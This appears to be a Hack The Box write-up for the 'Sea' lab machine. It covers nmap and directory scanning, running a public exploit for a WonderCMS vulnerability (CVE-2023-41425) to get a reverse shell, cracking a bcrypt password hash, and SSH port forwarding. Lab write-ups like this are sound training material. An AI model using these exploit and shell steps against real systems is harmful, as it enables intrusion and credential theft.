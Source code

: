 ```yaml
---
title:  HTB - Sea
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Sea]
tags: [HackTheBox, ]
image:
  path: /assets/img/post/sea/Sea.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Sea.
---
```


## Box Info

| Name                  | Sea              | 
| :-------------------- | ---------------: |
| Release Date          | 10 Aug, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.11.28 -oG allports
nmap -sCV -p 22,80 10.10.11.28 -oN targeted
```

- ttl = 63 aprox 64 = linux

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:53 EDT
Nmap scan report for 10.10.11.28 (10.10.11.28)
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Googling the version of ssh we can see what we are up against.

`Ubuntu focal`

![Image](../assets/img/post/sea/image.png)

Web: The first impression is we have a register page `contact` in `PHP`.

![Image](../assets/img/post/sea/image-1.png)

![Image](../assets/img/post/sea/image-2.png)

#### Resolution DNS

Add sea.htb to hosts.

![Image](../assets/img/post/sea/image-3.png)

The first thing what i was do is if web is created with some CMS or some technology vulnerability, but there nothing, so we go to run a scan directory and see what we have.

![Image](../assets/img/post/sea/image-4.png)

What i know for now is  i can upload any link in the section website.

![Image](../assets/img/post/sea/image-5.png)

## Scan Directory

After scan directory with dirsearch, I got some directories but they dont say anything if theres some vulnerability, so we gonna use feroxbuster and some directory lists and see what i get with it

```bash
feroxbuster -u http://sea.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Image](../assets/img/post/sea/image-6.png)

I see file in `/themes/bike/` (LICENSE with status 200) we will try to FUZZ that section and we see if i found another files.

```bash
feroxbuster -u http://sea.htb/themes/bike/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,js,md
```

![Image](../assets/img/post/sea/image-7.png)

### Vulnerability

Theme.php, version, README.md, LICENSE files

![Image](../assets/img/post/sea/image-8.png)

Now we have a vulnerability.

#### CVE-2023-41425

https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----7ebffbff37d2--------------------------------

![Image](../assets/img/post/sea/image-9.png)

Follow the instructions of repository.

```python
python3 exploit.py http://sea.htb/wondercms/loginURL 10.10.11.28 9001
```

![Image](../assets/img/post/sea/image-10.png)

The script make us a file "xss.js" and we need to send the link in the section website of form. Once send the form make us a file in the path /themes/revshell-main/rev.php that need execute for got the reverse shell.

![Image](../assets/img/post/sea/image-11.png)

This the path what need to execute but we need to add the ip and port of attacker machine.

![Image](../assets/img/post/sea/image-12.png)

### Shell as www-data

Attacker machine:

![Image](../assets/img/post/sea/image-13.png)

![Image](../assets/img/post/sea/image-14.png)

Till now we have geo and amay users.

![Image](../assets/img/post/sea/image-15.png)

We found the path of database with a password.

![Image](../assets/img/post/sea/image-16.png)

### Hashcat

Hash bcrypt

Before we need to remove the scape slash `\`.

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`

![Image](../assets/img/post/sea/image-17.png)

Password: `mychemicalromance`

### User amay

![Image](../assets/img/post/sea/image-18.png)

## Port Forwarding
SFTP Tunneling

![Image](../assets/img/post/sea/image-19.png)

```bash
ssh -L 48763:localhost:8080 amay@10.10.11.28
amay@10.10.11.28's password:
```

![Image](../assets/img/post/sea/image-20.png)

`amay`
`mychemicalromance`

## System Log and Monitoring

![Image](../assets/img/post/sea/image-21.png)

![Image](../assets/img/post/sea/image-22.png)

![Image](../assets/img/post/sea/image-23.png)

![Image](../assets/img/post/sea/image-24.png)

Rooted! :-)